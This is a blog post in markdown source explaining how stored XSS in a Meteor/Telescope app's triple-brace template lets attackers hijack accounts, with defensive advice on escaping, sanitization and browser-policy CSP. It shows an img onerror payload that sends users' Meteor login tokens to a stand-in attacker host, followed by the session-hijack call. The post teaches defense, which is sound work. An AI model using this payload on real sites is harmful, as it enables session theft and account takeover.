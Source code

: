 ```yaml
---
layout: post
title:  "Hijacking Meteor Accounts With XSS"
titleParts: ["Hijacking Meteor Accounts", "With XSS"]
description: "Cross Site Scripting attacks are especially dangerous in Meteor applications. Watch how an XSS vulnerability can lead to privilege escalation."
author: "Pete Corey"
date:   2015-09-07
tags: ["Javascript", "Meteor", "Security", "XSS"]
---
```


You've probably heard the term "XSS", or [cross-site scripting](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting), floating around the Meteor community. You've probably also heard that the <code class="language-*">browser-policy</code> package prevents XSS. Great! But... What is XSS?

Let's pretend that we've built an awesome new [Telescope](https://github.com/TelescopeJS/Telescope) application, and we've decided to get a little radical with our design. We've given our users the ability to embed images in their post titles! Our custom <code class="language-javascript">post_title</code> template looks something like this:

<pre class="language-markup"><code class="language-markup">&lt;template name="custom_post_title"&gt;
  &lt;h3 class="post-title &#123;&#123;moduleClass&#125;&#125;"&gt;
    &lt;a href="&#123;&#123;this.getLink&#125;&#125;"&gt;&#123;&#123;&#123;title&#125;&#125;&#125;&lt;/a&gt;
  &lt;/h3&gt;
&lt;/template&gt;
</code></pre>

Great! Now our users can use <code class="language-markup">&lt;img&gt;</code> tags to embed pictures directly in their post titles. There's absolutely nothing that go wrong here, right? Well...

## The Dangers of XSS

This change has actually exposed our application to a particularly dangerous form of cross-site scripting; [Stored XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)#Stored_XSS_Attacks). We've given users the ability to enter potentially malicious markup in their titles. Check out this example title:

<pre class="language-markup"><code class="language-markup">&lt;img src="fakeurl"
     onerror="$.get('//www.malicio.us/'+localStorage['Meteor.loginToken'])"
     alt="Cats suck!"&gt;
</code></pre>

Now, imagine that the bad person who posted this title has a simple web server running on <code class="language-*">www.malicio.us</code> listening for and logging any <code class="language-*">GET</code> requests it recieves. After a few innocent users stumble across this post on our Telescope application, their sensitive login tokens would be pulled from their local storage and sent to <code class="language-*">malicio.us</code>. The <code class="language-*">malicio.us</code> web logs would look something like this:

<pre class="language-bash"><code class="language-bash">GET http://www.malicio.us/g8Ri6DxKc3lSwqnYxHCJ0xE-XjMPf3jX-p_xSUPnN-D
GET http://www.malicio.us/LPPp7Tdb_qveRwa7-dLeCAxpqpc9oYM53Gt0HG6kwQ5
GET http://www.malicio.us/go9olSuebBjfQQqTrL-86d_LlfcctG848r7dBhW_kCL
</code></pre>

The attacker who posted the malicious title could easily steal any of these active sessions by navigating to our Meteor application and running the following code in their browser console:

<pre class="language-javascript"><code class="language-javascript">Meteor.loginWithToken("g8Ri6DxKc3lSwqnYxHCJ0xE-XjMPf3jX-p_xSUPnN-D");
</code></pre>

And just like that, a user's account has been stolen.

<hr/>

The crux of the issue here is that we're using a [triple-brace tag](https://github.com/meteor/meteor/tree/devel/packages/spacebars#triple-braced-tags) to insert raw HTML directly into the DOM. Without any kind of sanitation or validation, we have no way of knowing that users aren't providing us with malicious markup that will potentially run on all of our users' browsers.

In this case, the attacker simply grabbed the current user's `loginToken` out of local storage with the intent of hijacking their account. XSS attacks can be far more sophisticated, though. They can be as subtle as silently calling methods on behalf of the client, and as lavish as constructing entire user interface components designed to extract sensitive information (credentials, credit card numbers, etc…) from users.

Your Meteor application is not solely exposed to cross-site scripting through the use of triple-brace tags. Malicious HTML/JavaScript can be introduced into your [Blaze](https://www.meteor.com/blaze)-powered application through the use of [SafeString](https://github.com/meteor/meteor/blob/devel/packages/spacebars/README.md#safestring), [dynamic attributes](https://github.com/meteor/meteor/blob/devel/packages/spacebars/README.md#dynamic-attributes), and dynamic [attribute values](https://github.com/meteor/meteor/blob/devel/packages/spacebars/README.md#in-attribute-values), to name a few. When using these techniques with user-provided data, be especially sure that you're properly sanitizing or validating the data before sending it into the DOM.

## Browser-policy as a safety net

The [browser-policy](https://github.com/meteor/meteor/tree/devel/packages/browser-policy) package enables your Meteor application to establish its [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/Security/CSP/Introducing_Content_Security_Policy), or CSP. The goal of CSP is to prevent unexpected JavaScript from running on your page.

However, <code class="language-*">browser-policy</code> package is not a turnkey solution to our XSS problem. It requires some configuration to be especially useful. David Weldon has an [excellent guide](https://dweldon.silvrback.com/browser-policy) outlining the benefits of using <code class="language-*">browser-policy</code> and how to go about tuning it to your application. For our application, we would want to make sure that we're disallowing inline scripts:

<pre class="language-javascript"><code class="language-javascript">BrowserPolicy.content.disallowInlineScripts();
</code></pre>

By disallowing inline scripts, the JavaScript found in the <code class="language-javascript">onerror</code> of the image tag would not be allowed to run. This would effectively stop the XSS attack dead in its tracks.

While CSP is an amazing tool that can be used to harden your application against attackers, I believe that it should be considered your last line of defense. You should always try to find and eradicate all potential sources of cross-site scripting, rather than relying on the <code class="language-*">browser-policy</code> to prevent it. There is always the chance that you may have misconfigured your <code class="language-*">browser-policy</code>. On top of that, Content Security Policy [isn't supported on older browsers](http://caniuse.com/#feat=contentsecuritypolicy).

## Final Thoughts

Keep in mind that this was just a single example of cross-site scripting in action. Attackers can use a variety of other techniques and methods in order to achieve their nefarious intents.

The truth is, XSS attacks are relatively rare in Meteor applications. The Meteor team made a great decision when going with a secure default for value interpolation ([double-brace tags](https://github.com/meteor/meteor/tree/devel/packages/spacebars#double-braced-tags)). However, there are [still scenarios](http://blog.east5th.co/2015/04/03/black-box-meteor-triple-brace-xss/) where XSS can rear its ugly head in your Meteor application. In addition to using and configuring `browser-policy`, you should try to identify and fix any potential areas where cross-site scripting may occur.
